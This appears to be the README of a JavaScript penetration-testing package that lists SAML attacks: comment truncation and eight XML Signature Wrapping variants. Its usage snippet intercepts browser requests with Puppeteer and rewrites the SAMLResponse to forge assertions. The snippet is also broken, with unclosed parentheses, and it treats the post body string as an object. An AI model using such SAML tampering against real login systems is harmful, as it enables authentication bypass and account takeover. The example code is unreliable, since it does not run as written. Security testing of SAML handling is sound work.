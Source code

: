 # saml-attacks

Common saml attacks for penetration testing.

## Supported Attacks

- [ ] Modify
- [ ] Comment Truncation
- [ ] XSW 1
- [ ] XSW 2
- [ ] XSW 3
- [ ] XSW 4
- [ ] XSW 5
- [ ] XSW 6
- [ ] XSW 7
- [ ] XSW 8

## Usage

With puppeteer proxy

```js
const { CommentTruncationAttack } = require("saml-attacks");

page.on("request", async (request) => {
  if( request.url().includes(target_url) {
    let post_data = request.postData();
    let saml_response = post_data.SAMLResponse;
    modified_saml_response = CommentTruncationAttack(saml_response, "assertion_field", "comment");
    post_data.SAMLResponse = modified_saml_response;
    
    await request.continue({
      method: "POST",
      postData: qs.stringify(post_data),
      headers: {
        ...request.headers(),
        "Content-Type": "application/x-www-form-urlencoded",
      }
    };
  } else {
    await request.continue();
  }
})
```
